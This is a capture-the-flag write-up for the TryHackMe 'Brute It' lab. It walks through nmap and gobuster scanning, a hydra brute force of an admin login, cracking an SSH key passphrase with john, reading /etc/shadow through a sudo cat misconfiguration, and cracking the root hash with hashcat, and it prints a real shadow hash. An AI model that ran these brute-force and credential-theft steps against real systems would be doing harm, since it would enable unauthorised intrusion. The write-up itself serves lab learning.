 ## Brute It | TryHackMe

This is the link for the room [Brute It](https://tryhackme.com/room/bruteit)

<img src="https://user-images.githubusercontent.com/67650329/217137381-3c67f2a8-a1bb-4b77-9882-53356133e60c.png" width="250px" align="center">

---
Learn how to brute, hash cracking and escalate privileges in this box!

Let's Go.

`nmap -sS -sV [TARGET]`

- -sS = TCP SYN scan.
- -sV = Version of services.

This is the result for the scanning with nmap tools.
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-11 00:07 EST
Nmap scan report for TARGET
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Port open:

- 22 = SSH.
- 80 = http.

After we got the open port. We can search directory with gobuster tools.

`gobuster dir -u [TARGET] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -f -n -t 250`

- -u = Url Target.
- -w = Wordlist.
- -f = Nospam.
- -n = No Status just result (Nospam).
- -t = Thread.

This is the result for the scanning with gobuster tools.
```
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.164.83
[+] Method:                  GET
[+] Threads:                 250
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Add Slash:               true
[+] No status:               true
[+] Timeout:                 10s
===============================================================
2023/01/11 00:09:01 Starting gobuster in directory enumeration mode
===============================================================
/admin/               [Size: 671]
```
We got the admin login page. After that i think we can try use burp suite.
```
POST /admin/ HTTP/1.1
…
…
…
user=asd&pass=asd
```
We can see user and pass is display on request.

So we can try brute force it use hydra.

`hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz [TARGET] http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid"`

- -l = Specify a username.
- -P = Wordlist.
- http-post-form = Specify the type of login form used in a web application attack.

This is the result for the brute force with hydra tools.
```
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-11 00:19:58
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.164.83:80/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid
[80][http-post-form] host: 10.10.164.83   login: admin   password: x***r
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-11 00:20:32
```
We got the password and We are in to the admin dashboard.

<img src="https://user-images.githubusercontent.com/67650329/217141154-4bb95800-9762-4daa-b71a-08cfac88bca3.png" width="450px" align="center">

We can see on admin dashboard have RSA Private Key.

We can download it and crack, use John The Ripper tools.
```
/usr/share/john/ssh2john.py id_rsa > id_rsa.hash
john --wordlist=/home/kali/Downloads/rockyou.txt id_rsa.hash
Press 'q' or Ctrl-C to abort, almost any other key for status
r***l     (id_rsa)
```
BOOM!!!. We got the password.

We can try login into the ssh.

`ssh -i id_rsa john@[TARGET]`
```
john@bruteit:~$ ls
user.txt
john@bruteit:~$ cat user.txt
THM{***}
```
After we get in we got the user.

And after that we can try use command `sudo -l`
```
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```
We got the directory to exploit `/bin/cat`

We can use [gtfobinds](https://gtfobins.github.io/gtfobins/cat/) to exploit the directory.
```
john@bruteit:/$ sudo cat /etc/shadow
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
daemon:*:18295:0:99999:7:::
…
…
```
We got the root hash on `/etc/shadow`

Now we must crack the password using hashcat.

`hashcat -m 1800 text.txt rockyou.txt`

```
…
…
$6$zdk0.j***L.:f***l
…
…
```
We got the root password.

And we can try login it.
```
john@bruteit:~$ su root
Password: 
root@bruteit:/home/john# cat /root/root.txt
```
We got the root :)

Thank you for reading 👋.

---
